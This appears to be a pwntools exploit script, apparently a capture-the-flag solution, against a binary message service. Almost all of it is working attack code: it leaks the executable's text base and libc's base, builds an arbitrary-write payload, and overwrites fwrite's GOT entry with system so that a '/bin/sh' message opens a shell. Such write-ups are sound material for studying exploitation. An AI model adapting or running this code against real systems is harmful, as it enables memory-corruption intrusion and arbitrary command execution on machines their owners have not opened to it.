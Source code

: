 ```python

### Shortcuts for commands
def command_flush():
    return build_command(0xDEADC0DE)

def command_print():
    return build_command(0xdeadbeef)

def command_redact(id, data):
    return build_command(0xcafebabe, id, data)

def leak_text(r: pwnlib.tubes.tube.tube):
    payload = {
        0: command_print(),
    }
    send_stage(payload)
    while True:
        null_element_address = int(r.recvline_contains(b"Next is ").strip().split(b"Next is ")[1], 0)
        print(f"Leaked {hex(null_element_address)}")

        test_address = null_element_address-exe.symbols["NUL"]

        # This is an hacky way to identify the correct address from the various leaks.
        if test_address % 4096 == 0:
            exe.address = test_address
            break

    print(f"Text base address = {hex(exe.address)}")
    sleep(1)

# Payload to perform arbitrary write
def write_payload(addr, data):
    return command_flush() + build_message(b"CUT-HERE-FOR-WRITE", b"CUT-HERE-FOR-WRITE\0", addr-0x80+6*8) + command_redact(1, data)
def read_payload():
    return command_print()

def leak_libc(r: pwnlib.tubes.tube.tube):
    # Before printing, we are gonna write 0x0 right before the address to be leaked
    # So that mex->next is NULL
    payload = {
        0: write_payload(exe.got.fwrite-0x8, 0x0) + read_payload(),
    }
    send_stage(payload)

    # Discard useless prints
    r.recvline_contains(b"'CUT-HERE-FOR-LIBC-LEAK' by CUT-HERE-FOR-LIBC-LEAK. Next is ")

    # Read leaked address
    leaked_address = u64(r.recvline().strip().split(b"'' by ")[1].split(b".")[0]+b'\x00\x00')
    print(f"libc.sym.fwrite = {hex(leaked_address)}")
    libc.address = leaked_address - libc.sym.fwrite
    print(f"Libc base address = {hex(libc.address)}")
    sleep(1)

def rewrite_got(r: pwnlib.tubes.tube.tube):
    payload = {
        0: write_payload(exe.got.fwrite, libc.sym.system) + build_message(b"/bin/sh", b"Master pwner", 0x0),
    }

    send_stage(payload)
```